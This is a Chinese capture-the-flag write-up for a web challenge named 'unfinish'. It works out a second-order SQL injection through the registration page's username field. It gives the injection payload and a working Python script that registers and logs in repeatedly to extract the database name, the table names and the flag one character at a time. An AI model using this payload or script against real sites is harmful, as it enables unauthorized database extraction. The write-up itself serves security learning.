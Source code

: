 # unfinish
## 题目描述
SQL
## 思路
http://220.249.52.133:43624  
点开链接，是一个登录界面，随便用了几个邮箱，无法登录，并且发现会对输入的邮箱地址进行检查和过滤，例如：  
![avatar](./picture/unfinish_1.png)  
空格他都给检查出来了，用了 sqlmap，也说没法注入，只好另辟蹊径，用御剑扫一下，看看有没有其他文件。扫描过程中也没闲着，注意到 url 的后缀是 login.php，根据命名原则，是不是应该有注册页面呢？因此，尝试了一下 register.php，竟然成功了：  
![avatar](./picture/unfinish_2.png)  
随便注册一个邮箱，然后登录，发现 url 的后缀是 index.php，并且只有用户名部分回显了，另外就是给了张图片，别无内容：  
![avatar](./picture/unfinish_3.png)  
结合题目描述，和 sql 有关，大概率是在注册那个页面做文章了。得出这个结论主要基于两点，第一，御剑扫描返回的结果有三个主要文件，login.php、register.php、config.php，其中 config.php 打开没有任何内容，至少是没有可显示的内容，如此说明，只能在 login.php 和 register.php 上做文章；第二，所有的输入，只有注册页面的用户名部分回显了。根据以上两点，只有 register.php 可能被用来做获取 flag 的点。  
![avatar](./picture/unfinish_4.png)  
下面需要一点脑洞。猜测注册时，是向数据库中插入注册的信息，即  
```php
insert into tables values('$email','$username','$password')
```
如果执行成功，那么跳转到 login.php，那么我们在 register.php 中的 insert 语句注入 username，在 index.php 中显示注入的结果，据此构造 payload：  
```
0'+ascii(substr((select database()) from 1 for 1))+'0
```
这样，插入信息时，就变成了这样：  
```php
insert into tables values('$email','0'+ascii(substr((select database()) from 1 for 1))+'0','$password')
```
成功回显：  
![avatar](./picture/unfinish_5.png)  
接下来，写脚本，爆破数据库名（web），爆破表名（没爆出来，猜了俩，一个 ctf，一个 flag，结果 flag 对了），以及获取 flag：  
```python
import requests
import re

register_url = "http://220.249.52.133:43624/register.php"
login_url = "http://220.249.52.133:43624/login.php"
database = ""
table_name = ""
column_name = ""
flag = ""
'''
#获取数据库名
for i in range(1,10):
    register_data = {
        'email':'admin@ctf.com'+ str(i),
        'username':"0'+ascii(substr((select database()) from %d for 1))+'0"%i,
        'password':123
        }
    r = requests.post(url=register_url,data=register_data)
    login_data = {
        'email':'admin@ctf.com'+ str(i),
        'password':123
        }
    r = requests.post(url=login_url,data=login_data)
    match = re.search(r'<span class="user-name">\s*(\d*)\s*</span>',r.text)
    asc = match.group(1)
    if asc == '0':
        break
    database = database + chr(int(asc))
print('database:',database)

#获取表名
for i in range(1,20):
    register_data = {
        'email':'admin@ctf.com'+ str(i),
        'username':"0'+ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()) from %d for 1))+'0"%i,
        'password':123
        }
    r = requests.post(url=register_url,data=register_data)
    print(r.text)
    login_data = {
        'email':'admin@ctf.com'+ str(i),
        'password':123
        }
    r = requests.post(url=login_url,data=login_data)
    r.encoding = r.apparent_encoding
    print(r.text)
    match = re.search(r'<span class="user-name">\s*(\d*)\s*</span>',r.text)
    asc = match.group(1)
    if asc == '0':
        break
    table_name = table_name + chr(int(asc))
print('table_name:',table_name)
'''
#获取flag
for i in range(1,100):
    register_data = {
        'email':'admin@ctf.com'+ str(i) + str(i),
        'username':"0'+ascii(substr((select * from flag) from %d for 1))+'0"%i,
        'password':123
        }
    r = requests.post(url=register_url,data=register_data)
    login_data = {
        'email':'admin@ctf.com'+ str(i) + str(i),
        'password':123
        }
    r = requests.post(url=login_url,data=login_data)
    match = re.search(r'<span class="user-name">\s*(\d*)\s*</span>',r.text)
    asc = match.group(1)
    if asc == '0':
        break
    flag = flag + chr(int(asc))
print('flag:',flag)
```
最终，通过脚本获得 flag：  
![avatar](./picture/unfinish_6.png)  
